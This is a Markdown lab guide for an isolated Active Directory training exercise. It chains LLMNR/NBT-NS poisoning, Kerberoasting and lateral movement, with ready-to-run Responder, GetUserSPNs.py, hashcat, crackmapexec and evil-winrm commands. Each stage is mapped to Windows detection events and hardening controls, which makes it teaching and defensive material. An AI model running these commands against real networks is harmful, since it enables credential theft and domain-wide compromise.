

# Project 09 — Attack the Lab

This capstone attacks the enterprise you built in the earlier projects, following one realistic chain — **LLMNR/NBT-NS poisoning → Kerberoasting → lateral movement** — and then reads the same activity back from the detection pipeline. It is a study/detection exercise: every attack step is paired with the telemetry it produces so you learn to both run and catch it.

> [!IMPORTANT]
> **Isolated lab only**
> Run this entire project on an air-gapped lab network. The techniques here capture credentials and move between hosts; they are illegal and destructive against systems you do not own. See the [Enterprise Projects](Readme.md) hub for the "build it, then break it — in isolation" rule.

## Overview

This project proves you can operate an end-to-end intrusion against your own Active Directory estate and observe it from the blue side. You act as an attacker on a foothold Kali/Linux host, harvest a hash from broadcast name-resolution poisoning, request and crack a service ticket (Kerberoasting), then reuse recovered credentials to move laterally to a second Windows host. In parallel you confirm each stage in the logging built by [Project-07-Monitoring-and-Detection-Pipeline](Project-07-Monitoring-and-Detection-Pipeline.md). Skills proven: NTLM/Kerberos attack tradecraft, credential cracking, lateral movement, and attack-to-detection mapping.

## Objective and Scope

Concrete end goal: starting from an unprivileged position on the lab LAN, obtain a set of valid domain credentials via poisoning, escalate reach by cracking a Kerberoastable service account, and use those credentials to execute a command on a second domain-joined host — while producing a short table that maps each step to the Windows/Sysmon event that detected it.

In scope: LLMNR/NBT-NS/mDNS poisoning, Kerberoasting (SPN roasting), and credential-based lateral movement (SMB/WinRM). Out of scope: exploiting unpatched CVEs, Domain Controller code execution, and any persistence beyond what is needed to demonstrate the chain.

## Prerequisites

- A built and healthy domain — [Project-01-Single-DC-Domain](Project-01-Single-DC-Domain.md) (DC, DNS, at least one member server and one workstation).
- Core services online — [Project-02-Core-Network-Services](Project-02-Core-Network-Services.md) (DHCP/DNS so hosts resolve and the poisoner has victims).
- A detection pipeline collecting logs — [Project-07-Monitoring-and-Detection-Pipeline](Project-07-Monitoring-and-Detection-Pipeline.md) (audit policy, Sysmon, event forwarding). This is what you read results from.
- Background reading: [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md) (why the captured hash is crackable/relayable) and [Kerberos-Authentication](../Active-Directory-Domain-Services-AD-DS/Kerberos-Authentication.md) (why an SPN can be roasted), both under [Active Directory Domain Services](../Active-Directory-Domain-Services-AD-DS/Active-Directory-Domain-Services.md).
- Lab VMs: **DC01** (AD DS + DNS), **SRV01** (member server running a service under a domain service account with an SPN), **WS01** (Windows workstation used as the poisoning victim), and **KALI01** (attacker host on the same subnet).
- A deliberately weak password on at least one service account so the Kerberoast crack succeeds in lab time — set this only in the lab.

> [!TIP]
> **Snapshot before you attack**
> Take a clean snapshot of every VM now. After this project, roll back rather than trusting a "cleaned" host — poisoning and lateral movement leave artifacts you may not fully remove.

## Architecture



## Build Sequence

1. **Confirm your foothold and the victim's exposure.** From KALI01, verify you are on the domain subnet and that name resolution falls back to broadcast (LLMNR/NBT-NS enabled is the default unless hardened).

   ```bash
   ip a                     # confirm KALI01 is on the lab subnet
   ping -c1 dc01.armour.local
   ```

2. **Poison broadcast name resolution and capture a hash.** Run Responder to answer LLMNR/NBT-NS/mDNS queries; when WS01 mistypes a share or resolves a bad name, it authenticates to you and leaks a NetNTLMv2 hash.

   ```bash
   sudo responder -I eth0 -wv
   # captured hashes are written under /usr/share/responder/logs/
   ```

3. **Crack the captured NetNTLMv2 hash offline.** Feed the saved hash to Hashcat (NetNTLMv2 is mode 5600) or John.

   ```bash
   hashcat -m 5600 captured_netntlmv2.txt /usr/share/wordlists/rockyou.txt
   ```

4. **Enumerate Kerberoastable accounts.** With any valid domain credential (the one just cracked, or a low-priv lab account), list accounts that have a Service Principal Name — those can be roasted.

   ```bash
   GetUserSPNs.py armour.local/lowpriv:'Password123' -dc-ip 10.0.0.10
   ```

5. **Request and export the service ticket (Kerberoast).** Ask the KDC for a TGS for the target SPN; the ticket is encrypted with the service account's password-derived key.

   ```bash
   GetUserSPNs.py armour.local/lowpriv:'Password123' -dc-ip 10.0.0.10 -request -outputfile kerberoast.hash
   ```

6. **Crack the service ticket offline.** RC4-HMAC (etype 23) TGS tickets are Hashcat mode 13100.

   ```bash
   hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
   ```

7. **Move laterally with the recovered credentials.** Use the cracked service-account (or admin) credentials to run a command on SRV01 over SMB, then WinRM.

   ```bash
   crackmapexec smb srv01.armour.local -u svc_sql -p 'CrackedPass!' -x whoami
   evil-winrm -i srv01.armour.local -u svc_sql -p 'CrackedPass!'   # untested
   ```

8. **Collect detections.** In the [Project-07-Monitoring-and-Detection-Pipeline](Project-07-Monitoring-and-Detection-Pipeline.md) console, pull the events each step generated and build the attack-to-detection table (see Verification).

## Verification (Definition of Done)

The project is done when all of the following hold:

- **Poisoning worked** — Responder's log directory contains a NetNTLMv2 hash for a WS01 domain account, and you cracked at least one to cleartext.
- **Kerberoast worked** — `GetUserSPNs.py -request` produced a `$krb5tgs$` hash and Hashcat recovered the service account's password.
- **Lateral movement worked** — `crackmapexec ... -x whoami` returns the expected identity on SRV01 (a `Pwn3d!` / command-output line), proving the credential is valid remotely.
- **Detection closed the loop** — you can point to the concrete events for each stage. Expected, well-established IDs:

  | Stage | Where | Expected event |
  | --- | --- | --- |
  | Kerberos service-ticket request (Kerberoast) | DC01 | **4769** — Kerberos service ticket requested (watch for RC4/etype 0x17 to an SPN) |
  | Kerberos TGT request | DC01 | **4768** — Kerberos authentication ticket (TGT) requested |
  | Remote logon during lateral move | SRV01 | **4624** — successful logon (type 3 network, or type 10 for WinRM/RDP) |
  | Process created by the remote command | SRV01 | **4688** / Sysmon **1** — new process (`whoami`, `cmd`) |

> [!NOTE]
> **Verify health first, then attack**
> If a step silently fails, confirm the environment is healthy before blaming the tooling — run `dcdiag` and `repadmin /replsummary` on DC01 and confirm DNS resolves all four hosts. A broken domain looks like a "failed attack".

## Security Considerations

> [!WARNING]
> **These techniques are dangerous outside the lab**
> - **LLMNR/NBT-NS poisoning** ([MITRE T1557.001](https://attack.mitre.org/techniques/T1557/001/)) captures live credentials from any host that falls back to broadcast name resolution — never run Responder on a network you do not own.
> - **Kerberoasting** ([MITRE T1558.003](https://attack.mitre.org/techniques/T1558/003/)) needs only a single valid domain account; any user can request a TGS for any SPN, so weak service-account passwords are a domain-wide exposure.
> - **Lateral movement** with cracked or reused credentials is how a single foothold becomes full compromise; treat every recovered credential as burned.

Controls that close these gaps (apply and re-test in [Project-08-Harden-the-Enterprise](Project-08-Harden-the-Enterprise.md) and the [Project-10-Purple-Team-Capstone](Project-10-Purple-Team-Capstone.md)):

- **Disable LLMNR and NBT-NS** via Group Policy (`Turn off multicast name resolution`) and disabling NetBIOS over TCP/IP, so there is nothing to poison; see [Group Policy Objects](../Group-Policy-Objects-GPO/Readme.md).
- **Enforce SMB signing and LDAP signing + channel binding** to break any relay of a captured hash; see [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md).
- **Use long, random, managed service-account passwords** (gMSA) so a roasted ticket is not crackable, and monitor 4769 for RC4 requests.
- **Segment and tier administrative credentials** so a cracked service account cannot log on everywhere.

## Troubleshooting

| Symptom | Likely cause & fix |
| --- | --- |
| Responder captures nothing | LLMNR/NBT-NS already disabled (good hardening), no victim traffic, or wrong `-I` interface — generate a bad name lookup from WS01 and confirm the interface. |
| `GetUserSPNs.py` returns no accounts | No domain account has an SPN, or your bind creds are wrong — create/confirm a service account with an SPN in the lab. |
| Kerberoast hash won't crack | Service-account password is strong (expected in prod) or ticket is AES (etype 17/18, mode 19700) not RC4 — set a weak lab password or adjust the Hashcat mode. |
| Lateral move fails with valid creds | Host firewall blocks SMB/WinRM, account lacks remote-logon rights, or clock skew breaks Kerberos — check firewall, group membership, and time sync (PDC emulator). |
| Detections missing in the pipeline | Audit policy or Sysmon not applied to that host — reconfirm [Project-07-Monitoring-and-Detection-Pipeline](Project-07-Monitoring-and-Detection-Pipeline.md) coverage on WS01/SRV01/DC01. |

## References

- [MITRE ATT&CK — LLMNR/NBT-NS Poisoning and SMB Relay (T1557.001)](https://attack.mitre.org/techniques/T1557/001/)
- [MITRE ATT&CK — Steal or Forge Kerberos Tickets: Kerberoasting (T1558.003)](https://attack.mitre.org/techniques/T1558/003/)
- [Microsoft Learn — Audit Kerberos Service Ticket Operations (Event 4769)](https://learn.microsoft.com/windows/security/threat-protection/auditing/event-4769)
- [Microsoft Learn — Network security: Restrict NTLM](https://learn.microsoft.com/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-in-this-domain)

## Related

- [Project-07-Monitoring-and-Detection-Pipeline](Project-07-Monitoring-and-Detection-Pipeline.md) — the detection pipeline this project reads results from
- [Project-08-Harden-the-Enterprise](Project-08-Harden-the-Enterprise.md) — the controls that close every gap found here
- [Project-10-Purple-Team-Capstone](Project-10-Purple-Team-Capstone.md) — attack + detect + remediate, end to end
- [Project-01-Single-DC-Domain](Project-01-Single-DC-Domain.md) — the domain under attack
- [NTLM](../Active-Directory-Domain-Services-AD-DS/NTLM.md) — why the captured hash is crackable and relayable
- [Kerberos-Authentication](../Active-Directory-Domain-Services-AD-DS/Kerberos-Authentication.md) — why an SPN can be Kerberoasted
- [Active Directory Domain Services](../Active-Directory-Domain-Services-AD-DS/Active-Directory-Domain-Services.md) — the directory being attacked
- [Windows Monitoring and Logging](../Windows-Monitoring-and-Logging/Readme.md) — the audit events used for detection
- [Enterprise Security](../Enterprise-Security/Readme.md) — hardening context for the controls
- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub
